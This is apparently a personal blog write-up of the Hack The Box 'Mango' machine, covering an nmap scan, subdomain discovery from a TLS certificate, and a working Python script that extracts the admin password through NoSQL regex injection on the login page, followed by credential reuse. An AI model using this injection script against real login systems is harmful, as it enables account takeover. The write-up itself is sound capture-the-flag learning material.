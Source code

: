 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: true
tags: ["pentesting","Hack The Box"]
reads: 2
---
```

Mango was the first Hack The Box I got user access to! Hack the Box is a pentesting website.  To get in, I started off with a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan I knew there were two http/https servers and ssh was running. I  looked at what was hosted on these web servers.  On port 80 I didn't find anything. But on port, 443 I found a website that looked like a clone of the google search page. I ran gobuster against the server on port 80 but did not find any webpages.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up Mango Solutions in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed data to see if I could exploit the webservice but there where no interesting error messages. I then took a look at the ssl certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb, I found a login page.
![login screen](/img/mango/login.jpg)
I then tried to different types of injections on the login in page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts mango and admin. I guessed that there was an account with the username admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mongo db. By using a regular expression to match on the first characters of the password, we can enumerate the password. The http status code 302 tells us that our prefix matches the password. Using the found admin credentials I was an unable to  ssh onto the box. I was able to get onto to the box using the mangos credentials. However, I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```
